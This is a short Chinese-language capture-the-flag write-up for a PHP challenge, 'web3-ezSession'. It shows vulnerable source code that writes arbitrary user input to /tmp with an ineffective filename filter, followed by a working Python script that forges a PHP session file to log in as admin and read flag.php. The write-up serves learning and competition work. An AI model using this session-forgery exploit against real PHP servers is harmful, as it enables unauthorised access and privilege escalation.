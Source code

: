 
### web3-ezSession

- 打开连接，读取源码

``` php
<?php
highlight_file(__FILE__);
$content = @$_GET['content'] ? "---mylocalnote---\n" . $_GET['content'] : "";
$name = @$_GET['name'] ? $_GET['name'] : '';
str_replace('/', '', $name);
str_replace('\\', '', $name);
file_put_contents("/tmp/" . $name, $content);
session_start();
if (isset($_SESSION['username'])) {
    echo "Thank u,{$_SESSION['username']}";
}
//flag in flag.php

```

- 得到如下信息

> 可以往/tmp文件夹中传文件

> session['username'] 会回显

> flag在flag.php中

- 经过查阅资料，了解到，php的session临时文件有可能存储在/tmp中

- 查看flag.php，源码

```
u are not admin,only admin can see flag!
```

- 由于我最后才看的flag.php，所以我一度以为，这题坏了，最后经冠希哥提醒，直接才做出来

- 脚本

``` python
import requests
	
req = requests.session()

url = 'http://120.79.228.110:8801/'

tmp  = req.get(url)


payload = "admin"
# 截取phpsessid 闭合 ---mylocalnote---
s = '?name=sess_'+tmp.cookies['PHPSESSID'] + '&content=|s:4:"test";username|s:{}:"{}";'.format(len(payload),payload)
tmp2 = req.get(url+s)

#print(tmp2.text)
#print(url+s)

print(req.get(url+'/flag.php').text) 
```

---
